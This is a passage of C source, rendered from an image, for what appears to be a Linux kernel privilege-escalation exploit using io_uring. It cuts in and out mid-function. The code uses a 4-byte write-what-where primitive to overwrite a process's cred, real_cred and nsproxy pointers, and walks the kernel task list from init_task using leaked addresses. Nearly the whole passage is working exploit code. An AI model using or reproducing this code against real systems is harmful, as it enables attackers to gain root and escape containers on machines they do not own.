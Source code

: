 ```
    ret = io_uring_wait_cqe(&g_ring, &cqe);
}

// So in this kernel code path, after we're done with our write-what-where, the 
// what value actually gets incremented ++ style, so we have to decrement
// the values by one each time.
// Also, we only have a 4 byte write ability so we have to split up the 8 bytes
// into 2 separate writes
void overwrite_cred(void)
{
    uint32_t val_1 = g_cred_what & 0xFFFFFFFF;
    uint32_t val_2 = (g_cred_what >> 32) & 0xFFFFFFFF;

    write_what_where(val_1 - 1, g_cred_where);
    write_what_where(val_2 - 1, g_cred_where + 0x4);
}

void overwrite_real_cred(void)
{
    uint32_t val_1 = g_cred_what & 0xFFFFFFFF;
    uint32_t val_2 = (g_cred_what >> 32) & 0xFFFFFFFF;

    write_what_where(val_1 - 1, g_real_cred_where);
    write_what_where(val_2 - 1, g_real_cred_where + 0x4);
}

void overwrite_nsproxy(void)
{
    uint32_t val_1 = g_nsproxy_what & 0xFFFFFFFF;
    uint32_t val_2 = (g_nsproxy_what >> 32) & 0xFFFFFFFF;

    write_what_where(val_1 - 1, g_nsproxy_where);
    write_what_where(val_2 - 1, g_nsproxy_where + 0x4);
}

// Try to fuzzily validate leaked task addresses lol
int task_valid(uint64_t task)
{
    if ((uint16_t)(task >> 48) == 0xFFFF) { return 1; }
    else { return 0; } 
}

void traverse_tasks(void)
{    
    // Process name buf
    char current_comm[16] = { 0 };

    // Get the next task after init
    uint64_t current_next = read_8_at(g_init_task + TASKS_NEXT_OFF);
    uint64_t current = current_next - TASKS_NEXT_OFF;

    if (!task_valid(current))
    { 
        err("Invalid task after init: 0x%lx", current);    
    }

    // Read the comm
    read_comm_at(current + COMM_OFF, current_comm);
    //printf("    - Address: 0x%lx, Name: '%s'\n", current, current_comm);

    // While we don't have NULL, traverse the list
    while (task_valid(current))
    {
```
